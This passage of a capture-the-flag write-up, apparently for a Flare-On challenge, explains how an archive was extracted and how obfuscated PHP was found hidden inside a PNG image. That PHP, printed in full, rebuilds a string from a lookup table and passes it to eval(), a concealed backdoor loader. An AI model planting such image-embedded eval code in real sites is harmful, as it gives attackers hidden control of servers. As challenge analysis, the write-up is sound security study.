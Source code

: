 I had some problems extracting the files from the archive `C2.zip`, due the `unzip` not supporting the compression algorithm `PK 5.1`. In the end, I managed to extract it this way:

```bash
# password: malware
7x x C2.zip -ochall_02
```

Inside, there are two files:

```txt
.
├── home.html
└── img
    └── flare-on.png
```

While the HTML file doesn't contain anything useful, the image `flare-on.png` contains some PHP code, while still being a valid image!

If you were to run `strings` on the latter, you would find this code:

```php
<?php

$terms = array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&amp;", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");

$order = array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

$do_me = "";
for ($i = 0; $i < count($order); $i++)
{
    $do_me = $do_me.$terms[$order[$i]];
}

eval($do_me);
?>
```
